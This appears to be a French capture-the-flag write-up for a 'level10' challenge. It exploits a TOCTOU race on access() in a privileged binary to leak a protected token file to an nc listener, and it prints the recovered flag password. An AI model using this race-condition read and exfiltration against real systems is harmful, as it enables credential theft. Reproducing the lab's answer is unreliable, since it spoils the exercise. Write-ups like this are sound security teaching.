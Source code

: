 On voit un fichier level10 à la racine du home, qui s'execute avec les permissions de `flag10`, ainsi qu'un autre fichier `token` appartenant à flag10 et ne pouvant être lu que par ce dernier.
`./level10` nous indique qu'un argument doit être passé, ainsi qu'un host qui recevra le contenu du fichier.

La technique du lien symbolique ne fonctionne plus, mais on voit que access est appelé. Si aucune autre vérification est faite avant la lecture du fichier, une race condition peut peut-être être faite.

On donne les droits a /home/user dans level10, on fait 2 script, un pour faire la race condition et l'autre pour lancer l'executable en boucle, puis on les envoie avec la commande:

`scp -P 4242 level10/resources/{invert,spam}.bash level10@192.168.64.8:/home/user/level10`

Apres avoir recu les fichiers, on peut donc commencer a les lancer

```sh
$> echo "Wrong file" > a
$> chmod +rw a
$> ./invert.bash a token &
$> ./spam.bash 2>&1 > /dev/null &
```

Puis dans une autre fenetre on fait:

`nc -lk 6969 | grep -Ev "Wrong file|\.\*\(\ \)\*\."`.

On attends un peu...
Et on obtient le mot de passe de flag10 "woupa2yuojeeaaed06riuj63c".
